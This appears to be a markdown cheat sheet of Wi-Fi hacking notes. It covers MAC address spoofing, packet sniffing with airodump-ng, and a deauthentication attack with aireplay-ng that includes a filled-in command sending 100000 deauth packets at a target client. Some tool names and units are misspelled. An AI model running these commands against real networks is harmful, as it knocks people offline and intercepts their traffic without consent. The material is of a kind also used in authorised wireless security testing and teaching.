 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [Deauth Attack](#deauth)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

`aerodump-ng` is a packet sniffer
 - Use to capture packets within range
 - Display detailed info about networks
 - part of `aircrak-ng` suit

usage : `airodump-ng <INTERFACE>`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## Deauth Attack with `aireplay-ng`

usage : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```



